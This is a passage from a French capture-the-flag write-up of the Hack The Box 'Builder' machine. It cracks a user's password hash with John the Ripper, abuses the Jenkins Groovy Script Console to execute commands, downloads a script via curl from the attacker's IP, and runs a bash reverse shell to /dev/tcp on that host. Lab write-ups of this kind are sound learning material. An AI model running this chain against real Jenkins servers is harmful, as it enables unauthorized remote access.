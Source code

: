 ```shell
$ john hash_jennifer
...
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
princess         (?)
1g 0:00:00:00 DONE 2/3 (2024-04-13 21:15)
```

Ça y est ! On a trouvé le mot de passe de jennifer. Le mot de passe étant probablement réutilisé, on va déjà essayer de se connecter en SSH avec ces identifiants.

```shell
$ ssh jennifer@builder.htb
jennifer@builder.htb's password: 
Permission denied, please try again.
```

Après avoir utilisé d'autre nom d'utilisateurs probable comme `root`, `jenkins`, `dev` etc, on peut conclure que ce n'est pas un mot de passe qui nous servira sur SSH.
On va donc se connecter à Jenkins avec ses identifiants, pour voir ce qu'on peut trouver.

## Sortir du container

Jennifer a accès à la configuration de Jenkins. Nous avons déjà les informations de configuration, mais on peut maintenant les modifier.
On trouve un peu plus bas la "Script Console", qui permet d'exécuter des scripts Groovy sur le serveur.
On devrait facilement avoir une shell avec ça, ce qui va nous permettre de lister les fichiers et de faire des requêtes à l'intranet (qui possède probablement d'autres container docker).

```groovy
println "id".execute().text

uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
```

Parfait ! On va maintenant s'exécuter une shell pour que ça soit plus pratique à utiliser.

Après plusieurs essais, j'ai fini avec ces commandes:
```groovy
println "curl http://10.10.14.236:8080/shell -o /tmp/shell".execute().text
println "bash /tmp/shell".execute().text
```

Le fichier shell contient simplement une reverse shell bash.
```bash
bash -i >& /dev/tcp/10.10.14.236/1234 0>&1
```
{: file='/tmp/shell'}

On peut maintenant spawn un tty avec `script` avant de pouvoir le configurer avec `stty`.

```shell
$ script -qc /bin/bash /dev/null
Ctrl+Z
(Hôte) $ stty raw -echo; fg
$ stty rows 42 cols 183
```
